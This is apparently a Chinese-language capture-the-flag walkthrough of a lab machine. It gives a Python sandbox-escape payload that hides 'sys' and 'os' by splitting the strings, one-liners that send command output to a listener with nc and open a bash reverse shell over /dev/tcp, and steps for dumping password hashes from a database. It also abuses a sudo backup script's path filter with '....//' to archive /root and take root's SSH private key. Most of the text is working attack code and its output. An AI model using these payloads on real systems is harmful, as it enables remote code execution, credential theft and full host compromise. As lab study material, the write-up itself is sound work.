


## Code

##### sudo配置漏洞_backy.sh备份归档root目录
#### 这是典型的 Python 沙箱逃逸（sandbox escape）或反序列化攻击中使用的技巧。

#### 目标是通过 Python 类的 introspection（反射）能力，获取到底层模块（如 os），再调用 os.system('ls') 执行系统命令。

22/tcp ｜ 5000/tcp open http Gunicorn 20.0.4


### 1.python3 代码绕过

https://medium.com/soulsecteam/some-simple-bypass-tricks-8f02455b098d

```
[w for w in 1..__class__.__base__.__subclasses__() if w.__name__=='Quitter'][0].__init__.__globals__['sy'+'s'].modules['o'+'s'].__dict__['sy'+'stem']('whoami | nc 主机IP 9001')
```


#### 0. 1..的存在是以名字方式，在语法上忽略便是。
#### 1.
__class__.__base__.__subclasses__()
__class__: 当前对象的类。
__base__: 这个类的父类（通常是 object）。
__subclasses__(): 获取该父类的所有子类（返回一个类对象列表）。所以这一步是 获取所有从 object 派生出来的类
#### 2.
[w for w in ... if w.__name__ == 'Quitter']
这步是 从所有类中筛选出类名为 'Quitter' 的那个类。
Quitter 是 Python 标准库 site.py 中定义的类，通常用于 Python 的退出处理（比如 quit() 时用到的东西）
#### 3.
[0].__init__.__globals__
[0]: 获取 'Quitter' 这个类。
__init__: 获取它的初始化方法。
__globals__: 获取初始化方法所在作用域的全局变量。
这一步可以访问当前作用域中导入的所有模块，包括 sys、os 等
#### 4.
['sy' + 's'].modules['o' + 's']
字符拼接 'sy' + 's' → 'sys'，绕过一些正则检测。
sys.modules['os']: 获取已经导入的 os 模块
#### 5.
.__dict__['sy' + 'stem']('ls')
__dict__ 是一个对象的 属性字典，最终得到 os.system('ls') → 执行 ls 命令
##### 神奇的一点是 重新向nc再次发生时，要nc退出重新执行一次才能再次连接。
```
[w for w in 1..__class__.__base__.__subclasses__() if w.__name__=='Quitter'][0].__init__.__globals__['sy'+'s'].modules['o'+'s'].__dict__['sy'+'stem']('bash -c "bash -i >& /dev/tcp/10.10.x.x/9001 0>&1"')
```

nc这边需要:
```
python3 -c 'improt pty;pty.spawn("/bin/bash")'
Ctrl + Z
stty raw -echo;fg
export TERM=xterm
```
### 2.解哈希密码
```
app-production@code:~/app/instance$ sqlite3 database.db
sqlite3 database.db
sqlite> .tables
.tables
code user
sqlite> select * from user;
select * from user;
developmer|xxx
martin|xxx
```
使用rockyou.txt是解不开的，https://crackstation.net/ 这个网站一下子就搞定了


### 3.备份backy.sh

#### [1] 登陆martin的ssh
```
ssh martin@10.129.218.25

martin@code:~/backups$ ls
code_home_app-production_app_2024_August.tar.bz2  task.json
```
这两个重要文件，一个显示着日期的备份文件，另一个为辅助文件。

```
martin@code:~/backups$ sudo -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```
一个重要程序shell脚本

#### [2] 查看/usr/bin/backy.sh
```
martin@code:~/backups$ cat /usr/bin/backy.sh
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi //1.如果传入参数数量不是1，就打印用法说明（$0 是脚本名称），然后退出 ｜ $0为 /usr/bin/echo，$1为<task.json>

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi //2.检查<task.json>文件是否存在。

allowed_paths=("/var/" "/home/") //3.只允许归档 /var/ 和 /home/ 下的目录。

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file") //4.清理路径中的 ../为空，防止目录穿越攻击

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')
//再次用 jq 取出 directories_to_archive 字段中的每个路径（清理后的）｜ 并保存成 shell 变量：directories_to_archive

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
} //这是一个 shell 函数，用来判断某路径是否以 /var/ 或 /home/ 开头；｜函数定义，返回1或0

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done // 函数调用，遍历所有从 task.json 里解析出来的路径，如果不是允许的路径（返回非 0），就报错并退出脚本

/usr/bin/backy "$json_file"
```
##### 对task.json的要求：
```

            用户输入 task.json
                   │
                   ▼
     检查参数数目和文件是否存在
                   │
                   ▼
     用 jq 去除 "../" 防穿越攻击
                   │
                   ▼
  检查所有路径是否以 /var/ 或 /home/ 开头
                   │
                   ▼
          如果全部合法，就调用
         /usr/bin/backy "$json_file"
```
#### [3]操作
```
vi task.json

{
	"destination": "/tmp",
	"multiprocessing": true,
	"verbose_log": false,
	"directories_to_archive": [
		"/home/....//root/"
	]

}
```
##### 选择 "destination": "/tmp" 或者 "/dev/shm"，
##### 因为这些路径具有可写性和易利用性｜普通用户和非特权进程都可以在那里创建临时文件


唯一的例外（很冷门）：
只有路径最开始是 //，才有可能代表“网络路径”或“特殊命名空间”,如//server/share 在某些系统中可能被解释为一个特殊的网络共享路径
在安全绕过、路径混淆、过滤绕过中，攻击者可能故意加上 //

表达形式	实际意义
/home/..../root/	正常路径，目录叫 ....
/home/....//root     等于/home/..../root
```
"exclude": [".*"] //排除所有文件和目录,归档结果为空，没有文件会被打包
```

```
martin@code:~/backups$ cp task.json /tmp

martin@code:~/backups$ sudo  /usr/bin/backy.sh task.json
2025/08/06 15:19:13 🍀 backy 1.2
2025/08/06 15:19:13 📋 Working with task.json ...
2025/08/06 15:19:13 💤 Nothing to sync
2025/08/06 15:19:13 📤 Archiving: [/home/../root]
2025/08/06 15:19:13 📥 To: /tmp ...
2025/08/06 15:19:13 📦


martin@code:/tmp$ ls
code_home_.._root_2025_August.tar.bz2  task.json

martin@code:/tmp$ tar -xvf code_home_.._root_2025_August.tar.bz2
root/.ssh/id_rsa

martin@code:/tmp$ ls
code_home_.._root_2025_August.tar.bz2  root

martin@code:/tmp$ cd root/.ssh
martin@code:/tmp/root/.ssh$ ls
authorized_keys  id_rsa

martin@code:/tmp/root/.ssh$ chmod 600 id_rsa
martin@code:/tmp/root/.ssh$ ssh -i id_rsa root@10.129.218.25
root@code:~# ls
root.txt  scripts
```
```
chmod 600
- rw-------
- rw-	所有者可读（r）、可写（w），不可执行（-）

权限位	权限符号	权限值
r（读）	r	4
w（写）	w	2
x（执行）	x	1
无权限	-	0

 id_rsa 是一个 SSH 私钥文件 
 -i指定使用的私钥

 root/.ssh/id_rsa             ← 私钥（你拿到的）
root/.ssh/authorized_keys    ← 公钥（远程主机有）

```


